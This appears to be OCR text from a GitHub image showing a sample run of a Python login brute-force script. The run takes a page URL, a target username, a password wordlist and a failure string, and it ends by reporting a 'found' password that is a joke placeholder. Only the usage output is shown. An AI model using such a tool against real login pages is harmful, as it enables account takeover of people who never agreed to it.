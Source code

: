 

python bruteforce.py   
     
[+] Enter Page URL: github.com
[+] Enter Username For The Account To Bruteforce: myusername
[+] Enter Password File To Use: fakerockyou.txt
[+] Enter String That Occurs When Login Fails: login failed

Trying: ThisIsAFakeRockYouList:)

[+] Found Username: ==> myusername
[+] Found Password: ==> ThisIsAFakeRockYouList:)